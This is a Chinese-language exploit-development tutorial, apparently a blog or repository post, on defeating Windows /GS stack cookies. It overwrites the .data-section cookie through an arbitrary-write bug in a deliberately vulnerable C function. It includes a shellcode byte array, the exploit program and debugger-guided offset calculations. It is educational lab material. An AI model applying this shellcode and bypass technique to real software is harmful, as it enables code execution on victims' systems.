




# Replace cookie bypass GS

**Author：wnagzihxain
Mail：tudouboom@163.com**

```
#include <string.h>
#include <stdlib.h>

char shellcode[] =
"\x90\x90\x90\x90"//new value of cookie in .data
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\xF4\x6F\x82\x90"//result of \x90\x90\x90\x90 xor EBP
"\x90\x90\x90\x90"
"\x94\xFE\x12\x00";//address of shellcode


void test(char* str, int i, char* src)
{
	char dest[200];
	if (i < 0x9995)
	{
		char* buf = str + i;
		*buf = *src;
		*(buf + 1) = *(src + 1);
		*(buf + 2) = *(src + 2);
		*(buf + 3) = *(src + 3);
		strcpy(dest, src);
	}
}

int main()
{
	char* str = (char *)malloc(0x10000);
	test(str, 0xFFFF2FB8, shellcode);
	return 0;
}
```

先来解释一下代码的意思，首先main函数里面申请一个`0x10000`大小的堆，然后执行test函数

来看看test函数是干什么的，先申请了200字节的空间表示字符数组，然后判断i的长度，也就是test函数中间的参数

接下来定义一个指针buf，将`s+i`赋值给buf，接下来再把shellcode的前四个字节赋值给buf指针指向的地址开始的前四个字节

上面代码的翻译看起来好像很不好理解，这样说吧，就是讲shellcode的前四个字节赋值给`str+i`开始的四个字节，然后i可以控制偏移，这下好理解多了

我们根据第一篇的设置，生成release版本，在调用test函数前面下个断点，比较好观察

我们载入，然后单步，可以看到三个压栈操作，那是test的参数，遇到call，跟进去

如下图，先来看左上角，标记的位置是取.data段的Cookie，可以看到这个地址是0x0040A004，Cookie的值可以不关心，反正都是要被覆盖掉的

然后来看看右下角，右下角标记出来的是调用test函数的时候压栈的三个参数，那么可以看到0x00410048是指针str指向的堆的起始地址

我们要做的就是让这个地址加上i的值等于Cookie的地址0x0040A004，这样我们就可以修改Cookie了



好了看到这里我们可以回去修改代码了

为了避免不必要的异常和其它问题导致调试出问题，先把shellcode的代码删掉，留前面四个字节的“\x90”

然后计算一下.data段的Cookie指针0x0040A004离指针str的长度，这里需要负数，因为是加上长度往回偏移，我这里算出来的是0xFFFF9FBC

然后修改test函数里面的参数，重新生成release版本，载入，然后单步来到test函数，我们F7跟入

在数据区看一下.data段的Cookie，可以看到这时的Cookie是0x67B72058



我们走完四个字节的赋值语句，也就是strcpy前面，可以看到Cookie已经被我们修改了



好了现在控制了.data段的Cookie，接下来就是构造栈中的Cookie了

栈中的Cookie在ss:[ebp-4]的位置，我们需要先用“\x90\x90\x90\x90”和当前的ebp进行异或，将结果保存在ss:[ebp-4]

然后ss:[ebp]填充“\x90\x90\x90\x90”，最后的返回地址填shellcode的起始位置

至于shellcode的起始地址，调用strcpy的时候会压栈，第二个压栈的就是目的地址，也就是shellcode的起始位置

补充一下：如果不知道怎么计算栈中Cookie的值，可以在生成Cookie前，将.data段Cookie的值手动修改成`\x90\x90\x90\x90`，然后就可以让汇编计算出Cookie了



总结：关于突破GS的就调试这么多，有些可能看起来`现实中完全没有这种情况啊！！！！！！`

但是我们这只是在调试，学习这种方法，就像这篇替换.data段的Cookie一样，我们人为确定了shellcode的起始位置

这在真正的攻击中是Impossible的，所以在调试完后，还需要各种真实环境去实战，多的就不说啦

欢迎留言交流，么么哒(′0ノ`*)